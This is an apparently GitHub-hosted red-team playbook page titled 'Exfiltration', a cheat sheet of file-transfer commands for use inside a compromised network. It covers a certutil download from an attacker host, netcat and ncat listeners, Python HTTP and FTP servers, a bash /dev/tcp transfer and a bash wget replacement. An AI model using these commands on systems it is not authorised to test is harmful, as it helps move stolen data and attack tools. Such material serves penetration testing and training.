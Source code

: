 # 7.2 Exfiltration

## Table of Contents

- [File Transfer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#File-Transfer)
  - [Certutil](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Certutil)
  - [File Encryption / Decryption](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#File-Encryption--Decryption)
  - [Ncat](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Ncat)
  - [Python3 HTTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python3-HTTP-Server)
- [Python SimpleHTTPServer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python-SimpleHTTPServer)
  - [Simple FTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Simple-FTP-Server)
  - [Transfering Files with Bash](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Transfering-Files-with-Bash)
  - [wget Replacement in Bash]()

### File Transfer

#### Certutil

##### Base64 Encoding

```c
C:\> certutil.exe -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

##### Base64 Decoding

```c
C:\> certutil.exe -decode <FILE>.txt <FILE>.dll
```

#### File Encryption / Decryption

##### Encryption

```c
$ openssl enc -aes-256-cbc -pbkdf2 < <FILE> > <FILE>.enc
```

##### Decryption

```c
$ openssl enc -d -aes-256-cbc -pbkdf2 < <FILE>.enc > <FILE>
```

#### Ncat

```c
$ ncat --ssl -lnvp <LPORT>
```

#### Python3 HTTP Server

```c
$ pyhton3 -m http.server <LPORT>
```

#### Python SimpleHTTPServer

```c
$ python -m SimpleHTTPServer <LPORT>
```

#### Simple FTP Server

```c
$ python -m pyftpdlib -p 21 --write
```

#### Transfering Files with Bash

```c
$ nc -lnvp <LPORT> < <FILE>
```

```c
$ bash -c 'cat < /dev/tcp/<LHOST>/<LPORT>' > <FILE>
```

#### wget Replacement in Bash

Copy the following script directly to the shell.

```c
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
```

### Previous

- [7 Actions-on-Objective](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7-Actions-on-Objective.md)
- [7.1 Post Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md)
